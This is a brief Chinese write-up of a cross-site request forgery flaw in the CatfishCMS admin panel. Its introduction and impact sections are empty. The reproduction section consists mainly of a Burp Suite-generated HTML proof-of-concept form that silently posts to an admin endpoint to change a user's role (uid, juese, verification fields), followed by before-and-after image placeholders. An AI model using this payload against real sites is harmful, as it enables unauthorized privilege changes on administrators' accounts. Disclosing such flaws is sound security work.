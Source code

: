 CatfishCMS后台csrf
==================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

首先需要登录后台

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/index.php/admin/index/modifymanage.html?c=73" method="POST">
          <input type="hidden" name="uid" value="73" />
          <input type="hidden" name="juese" value="3" />
          <input type="hidden" name="verification" value="05f176843c20e12c1364e80b9869ac17" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

修改前

![](./.resource/CatfishCMS后台csrf/media/rId24.png)

修改后

image
